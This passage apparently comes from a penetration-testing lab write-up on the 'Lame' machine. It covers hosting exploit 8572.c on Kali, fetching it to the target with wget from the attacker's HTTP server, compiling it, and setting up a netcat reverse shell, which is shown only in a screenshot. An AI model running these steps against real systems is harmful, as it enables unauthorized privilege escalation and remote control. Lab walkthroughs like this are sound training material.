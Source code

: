 ![](images/Emulating%20Threat%20Methodologies/image025.png)<br><br>

The script suggests the following exploits:

![](images/Emulating%20Threat%20Methodologies/image026.png)<br><br>

### Lame Local Exploit

Download the exploit file `8572.c` and host it on Kali with `python3 -m http.server`.  Download this file to the target machine with `wget <kali-ip>:8000/8572.c`.  

Compile the file using `gcc 8572.c -o exploit`. GCC reports an error but the executable should be there:

![](images/Emulating%20Threat%20Methodologies/image023.png)<br><br>

Then create a file named `run` containing a command to start a reverse shell to the attacking machine using netcat:

![](images/Emulating%20Threat%20Methodologies/image024.png)<br><br>
